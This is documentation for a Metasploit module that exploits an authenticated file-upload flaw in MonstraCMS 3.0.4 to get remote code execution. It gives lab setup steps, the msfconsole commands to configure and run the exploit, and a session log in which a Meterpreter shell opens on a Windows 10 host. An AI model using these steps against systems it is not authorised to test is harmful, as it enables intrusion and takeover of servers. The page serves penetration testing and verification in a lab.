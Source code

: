 ## Description
MonstraCMS 3.0.4 allows users to upload arbitrary files which leads to remote command execution on the remote server. An attacker may choose to upload a file containing PHP code and run this code by accessing the resulting PHP file.
This module was tested against MonstraCMS 3.0.4.
Additional information and vulnerabilities can be viewed on Exploit-DB [43348](https://www.exploit-db.com/exploits/43348/).

## Verification Steps
Available at [Exploit-DB](https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip)

### Vulnerable Application Installation Setup
 1. Download Application : `https://www.exploit-db.com/apps/23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 2. Extract : `23663fc7b47c4c1e476b793ea53660bc-monstra-3.0.4.zip`
 3. Move In WebDirectory : `C:\xampp\htdocs\`
 4. Now Visit : http://localhost/

## Verification Steps

 1. Install the application
 2. Start msfconsole
 3. Do: `use exploit/multi/http/monstra_fileupload_exec`
 4. Do: `set rport <port>`
 5. Do: `set rhost <ip>`
 6. Do: `set targeturi monstra`
 7. Do: `set username USERNAME`
 8. Do: `set password PASSWORD`
 9. Do: `check`
```
[*] Monstra CMS: 3.0.4
[+] 192.168.0.101:80 The target is vulnerable.
```
 10. Do: `set lport <port>`
 11. Do: `set lhost <ip>`
 12. Do: `exploit`
 13. You should get a shell.


## Scenarios
### Monstra CMS on Windows Target
```                                                                                                                                    
msf exploit(multi/http/monstra_fileupload_exec) > check 

[*] Monstra CMS: 3.0.4
[+] 192.168.0.101:80 The target is vulnerable.
msf exploit(multi/http/monstra_fileupload_exec) > exploit 

[*] Started bind handler
[*] Trying to Login ......
[+] Authentication successful : [ editor : editor ]
[+] CSRF-Token for File Upload : 2a67a7995c15c69a158d897f517e3aff2e3a4ae9
[*] Trying to upload file with malicious Content....
[*] Executing Payload 
[*] Sending stage (37775 bytes) to 192.168.0.101
[*] Meterpreter session 1 opened (10.0.2.15:45689 -> 192.168.0.101:4444) at 2018-06-30 12:39:53 +0530
[+] Deleted TSPfeLYdMP.PHP

meterpreter > sysinfo 
Computer    : 114619-T470P
OS          : Windows NT 114619-T470P 10.0 build 16299 (Windows 10) AMD64
Meterpreter : php/windows
meterpreter > 
```
